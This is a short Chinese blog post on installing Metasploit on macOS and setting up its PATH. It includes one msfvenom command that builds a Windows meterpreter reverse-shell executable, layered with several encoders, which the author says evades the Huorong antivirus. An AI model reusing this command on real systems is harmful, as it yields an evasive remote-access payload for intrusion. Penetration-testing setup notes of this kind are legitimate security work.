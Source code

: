 ```yaml
---
layout: post
title:  "Mac环境下msf环境部署"
date:   2020-07-04 12:32:45 +0100
categories:
---
```


# msf安装
Mac官网下载[https://osx.metasploit.com/metasploitframework-latest.pkg](https://osx.metasploit.com/metasploitframework-latest.pkg) 
Win官网下载[https://windows.metasploit.com/metasploitframework-latest.msi](https://windows.metasploit.com/metasploitframework-latest.msi)  

- Mac推荐安装brew，神器!  
# 环境配置  
- brew install ruby  //安装ruby
```
msf在Mac默认安装位置为/opt/metasploit-framework/  
添加PATH环境:export PATH=/opt/metasploit-framework/bin:$PATH  
执行msfconsole启动  //我习惯使用msf启动 可以使用alias将msfconsole设置别名为msf
```

# msfvenom使用  //可Bypass最新版火绒(已提交火绒安全)  
直接上命令  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.7.112 LPORT=1111 -f raw -e x86/shikata_ga_nai -i 8 | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 10 -f exe -o 12345.exe```  

刚开始在使用msfcenom的时候报错缺少依赖，提示bundle install，安装依赖后依旧无法使用，初步断定为电脑环境问题，随即重装恢复系统 //重装后安装msf一切正常  